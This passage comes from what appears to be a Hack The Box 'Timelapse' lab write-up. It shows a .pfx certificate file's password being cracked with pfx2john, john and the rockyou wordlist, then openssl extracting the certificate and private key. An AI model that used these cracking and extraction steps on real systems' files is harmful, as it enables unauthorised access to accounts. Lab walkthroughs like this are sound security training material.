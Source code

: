 Extracting the ```zip``` we get a ```legacyy_dev_auth.pfx``` file.

Looking for the ```.pfx``` files.

{{< admonition tip ".pfx files" >}}
The .pfx file, which is in a PKCS#12 format, contains the SSL certificate (public keys) and the corresponding private keys.
{{< /admonition >}}

Source: https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file

Before extracting the certificate, we need to crack the password of ```.pfx``` file. We'll do this using ```john``` as well. 

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ pfx2john legacyy_dev_auth.pfx > pfx.hash
```

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ john --wordlist=/home/saad/Documents/wordlists/rockyou.txt pfx.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:04:12 DONE (2022-08-18 05:08) 0.003963g/s 12808p/s 12808c/s 12808C/s thuglife06..thug211                                                    
Use the "--show" option to display all of the cracked passwords reliably                                                                            
Session completed.
```

Now we'll follow the instructions [here](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) to extract the certificate and private key from the ```.pfx``` file.

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.crt
Enter Import Password:thuglegacy
```

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key
Enter Import Password:thuglegacy
Enter PEM pass phrase:thuglegacy
Verifying - Enter PEM pass phrase:thuglegacy
```

## user.txt
